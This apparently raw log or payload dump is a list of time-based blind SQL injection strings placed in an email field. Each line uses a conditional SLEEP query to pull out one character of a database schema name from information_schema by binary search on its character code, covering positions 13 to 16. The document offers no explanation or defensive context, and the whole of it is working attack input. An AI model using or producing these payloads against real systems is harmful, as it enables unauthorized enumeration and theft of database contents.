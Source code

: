 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=115,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=99,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=102,SLEEP(0.122010510204),SLEEP(0)) -- -}
